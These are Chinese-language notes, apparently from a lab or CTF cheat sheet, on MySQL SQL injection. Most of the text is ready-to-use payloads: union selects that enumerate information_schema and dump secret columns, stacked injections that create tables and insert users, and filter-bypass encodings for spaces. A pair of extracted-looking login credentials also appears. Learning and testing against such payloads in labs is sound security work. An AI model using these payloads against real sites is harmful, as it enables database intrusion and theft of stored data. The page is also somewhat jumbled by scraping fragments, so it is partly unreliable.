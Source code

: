 - 在查询出数据库名或者信息后，根据得到的数据库名进入mysql的`information_schema.tables`信息表中查询已知数据库的表中列的信息
```sql
1)   union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --
闭合  查询函数         连接字段     表名               查询信息试图表                          数据库名称
```

```
id = -1 union select
```

- `查询整个数据库中所有库和所对应的表信息`

```sql
select table_schema,group_concat(table_name)
from  information_schema.tables
group  by table_schema
```
Your Login name:NpQJ25CiVWtFNtrNlOw4GlTm
Your Password:b7490cbbbd5cfd081d8ec1930914a677




## **注入之堆叠注入**
就是在注入语句中加一个`;`然后再加入任意mysql语句即可。

列-(新建成功表)
：
```
select * from users where id=1;create table test like users;
```

**(查询数据)**
```
select * from users where id=1;select 1,2,3;
```

**[修改数据]**
```
select * from users where id=1;insert into users(id,username,password)
values('100','new','new');
```
```
?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --+

?id=0" union select 1,group_concat(column_name),3 from information_schema.columns where table_name='la5spfxomc' --+


?id=0" union select 1,group_concat(secret_D2E9),group_concat(sessid) from challenges.la5spfxomc --+
```

## 绕过空格(注释符 /**/，%a0)

两个空格代替一个空格，用Tab代替空格，%a0=空格：
```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```
  最基本的绕过方法，用注释替换空格：
```
/*  注释 */

```
